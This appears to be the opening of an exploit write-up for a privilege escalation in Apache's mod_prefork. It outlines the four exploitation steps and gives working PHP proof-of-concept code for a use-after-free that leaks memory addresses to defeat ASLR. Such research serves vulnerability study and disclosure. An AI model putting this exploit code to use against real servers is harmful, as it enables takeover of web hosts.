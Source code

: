 # Exploitation

The exploitation is a four step process:
1. Obtain R/W access on a worker process
2. Write a fake `prefork_child_bucket` structure in the SHM
3. Make `all_buckets[bucket]` point to the structure
4. Await 6:25AM to get an arbitrary function call

Advantages:
- The main process never exits, so we know where everything is mapped by reading `/proc/self/maps` (ASLR/PIE useless)
- When a worker dies (or segfaults), it is automatically restarted by the main process, so there is no risk of DOSing Apache

Problems:
- PHP does not allow to read/write `/proc/self/mem`, which blocks us from simply editing the SHM
- `all_buckets` is reallocated after a graceful restart (!)

## 1. Obtain R/W access on a worker process

### PHP UAF 0-day

Since `mod_prefork` is often used in combination with `mod_php`, it seems natural to exploit the vulnerability through PHP. [CVE-2019-6977]() would be a perfect candidate, but it was not out when I started writing the exploit. I went with a 0day UAF in PHP 7.x (which seems to work in PHP5.x as well):

*PHP UAF*
```php
<?php

class X extends DateInterval implements JsonSerializable
{
  public function jsonSerialize()
  {
    global $y, $p;
    unset($y[0]);
    $p = $this->y;
    return $this;
  }
}

function get_aslr()
{
  global $p, $y;
  $p = 0;

  $y = [new X('PT1S')];
  json_encode([1234 => &$y]);
  print("ADDRESS: 0x" . dechex($p) . "\n");

  return $p;
}

get_aslr();
```
